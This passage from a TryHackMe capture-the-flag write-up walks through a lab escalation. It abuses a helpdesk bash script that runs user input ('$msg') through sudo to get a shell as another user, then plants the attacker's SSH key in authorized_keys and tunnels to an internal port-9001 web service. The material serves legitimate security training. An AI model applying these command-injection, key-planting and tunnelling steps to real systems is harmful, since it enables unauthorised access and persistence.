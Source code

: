 > For the script work properly, I have to sanitize the shell [[Notes/Netcat#Technique 1 Python\|Netcat#Technique 1 Python]]
```shell
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

When I introduce a text when I asked for a `msg`variable then the script try to execute directly and the vulnerability lies in the `$msg 2>/dev/null` line. As we have the `sudo -l` privilege on the script we can run commands as `apaar`.

I have to execute the script as the owner
```shell
sudo -u USERNAME ./script.sh
```
![Pasted image 20241001163135.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001163135.png)
The first answer is irrelevant, and the second is the command we execute a `bash` like `apaar`.
> [!check] User Flag
> ![Pasted image 20241001163842.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001163842.png)

## Http service
Based on the `nikto` suggestion, check some interesting services, filtering `tcp`and `LISTEN`
```shell
netstat -anlp | grep -E "tcp.*LISTEN"
```
![Pasted image 20241001174957.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001174957.png)
The port `3306` is usually associated to `MySQL` or `MariaDB`
`53` Is an `DNS` server
The unusual or probably custom service is 9001 but is only available from localhost and after check it with `curl` we know it's a web server.
![Pasted image 20241001184335.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001184335.png)
Now we are `apaar` and we have `ssh` access and we can perform a ssh tunnel.
## SSH tunnel
**On the Attacker machine**, execute an `cat` the `id_rsa.pub`
```shell
cat /home/kali/.ssh/id_rsa.pub
```
![Pasted image 20241001192909.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001192909.png)
Copy to the clipboard
**On the victim machine**,  using `echo` paste the code and add or replace the `authorized_keys`
```shell
echo "ssh-rsa AAAA............y2w/oJ0= kali@kali" >> authorized_keys
```
![Pasted image 20241001193414.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001193414.png)
Back to the **attacker machine** and now we can connect directly to the `apaar` machine without a password with the `port forwarding`
```shell
ssh apaar@10.10.206.108 -L 9001:127.0.0.1:9001
```